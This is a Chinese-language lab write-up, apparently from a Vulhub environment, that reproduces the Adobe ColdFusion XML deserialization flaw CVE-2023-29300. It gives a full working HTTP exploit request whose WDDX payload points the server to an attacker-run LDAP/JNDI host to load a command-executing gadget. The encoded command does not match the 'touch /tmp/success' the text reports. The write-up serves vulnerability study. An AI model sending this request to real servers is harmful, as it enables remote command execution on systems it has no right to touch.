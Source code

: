 # Adobe ColdFusion XML 反序列化命令执行漏洞 CVE-2023-29300

## 漏洞描述

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion在2018.0.16、2021.0.6、2023.0.0.330468版本及以前，存在一处XML反序列化漏洞。攻击者可以利用该漏洞调用Java中任意setter方法，最终执行任意命令。

参考链接：

- [https://blog.projectdiscovery.io/adobe-coldfusion-rce/](https://blog.projectdiscovery.io/adobe-coldfusion-rce/)
- [https://xz.aliyun.com/t/13413](https://xz.aliyun.com/t/13413)

## 环境搭建

Vulhub启动一个Adobe ColdFusion 2018.0.15服务器：

```
docker compose up -d
```

等待一段时间后环境启动成功，访问`http://your-vps-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。

![](images/Adobe%20ColdFusion%20XML%20反序列化命令执行漏洞%20CVE-2023-29300/image-20240226160629443.png)

## 漏洞复现

要利用这个漏洞，需要先找到一个可利用的setter方法作为Gadget。最常见的Gadget是利用`com.sun.rowset.JdbcRowSetImpl`来进行JNDI注入，并执行任意命令。

首先，启动一个恶意JNDI服务器，并加载`CommonsBeanutils1`作为内层反序列化Gadget。Github上有数个工具可以使用，比如[https://github.com/rebeyond/JNDInjector/releases](https://github.com/rebeyond/JNDInjector/releases)：

![](images/Adobe%20ColdFusion%20XML%20反序列化命令执行漏洞%20CVE-2023-29300/image-20240226154836838.png)

然后，将恶意LDAP地址替换到如下请求中发送：

```
POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: your-vps-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 333

argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xcom.sun.rowset.JdbcRowSetImplx'><var name='dataSourceName'><string>ldap://192.168.24.1/HiJbyQaUgJ/CommonsBeanutils1/Exec/eyJjbWQiOiJ0b3VjaCAvdG1wL2F3ZXNvbWVfcG9jIn0=</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```

可见，`touch /tmp/success`已被成功执行：

![](images/Adobe%20ColdFusion%20XML%20反序列化命令执行漏洞%20CVE-2023-29300/image-20240226154946942.png)
